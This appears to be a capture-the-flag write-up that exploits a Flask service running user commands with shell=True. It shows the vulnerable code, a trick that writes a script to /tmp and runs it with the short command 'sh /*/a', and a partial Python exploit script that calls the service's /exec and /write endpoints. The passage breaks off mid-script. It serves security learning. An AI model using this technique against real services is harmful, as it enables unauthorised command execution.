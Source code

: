 ```python
        return 'Command too long', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=6664)
```

Recapping: 
we can read any file that `user` has permissions to read. We can write any file to directories where `user` has permissions to write. We can also execute commands with no more than $7$ characters.


Since `/would you be so kind to provide me with a flag` is much more than $7$ characters, that is not a viable option. But we can write a file containing that command.
```python
p = """
#!/bin/sh

/would you be so kind to provide me with a flag
"""
```

So where do we write this file, such that we can execute with $7$ or less characters.

We can write it to `/tmp/` as `a`. Then we can execute `sh /*/a` utilizing the wildcard to find the binary `a` in the path `/home/a`, `/opt/a` ... and finally its is found in `/tmp/a`.



I came up with this script.

```python
import requests
import urllib.parse

url = "https://a9<....>08.inst2.chal-kalmarc.tf/"

def exec(param):
    if 7 < len(param):
        print("payload is too long:")
        print(param)
        print(f"len: {len(param)}")

    # encode
    encoded_param = urllib.parse.quote(param)  
    uri = f"{url}/exec?cmd={encoded_param}"
    print(f"{uri=}")
    
    res = requests.get(uri)  
    print("Status Code:", res.status_code)
    print("Response Body:", res.text)
    print()
    return res

def write_file(filename, content):
    params = {"filename": filename}  
    res = requests.post(f"{url}/write", params=params, data=content.encode())

    print("Status Code:", res.status_code)
    print("Response Body:", res.text)

p = """
#!/bin/sh

```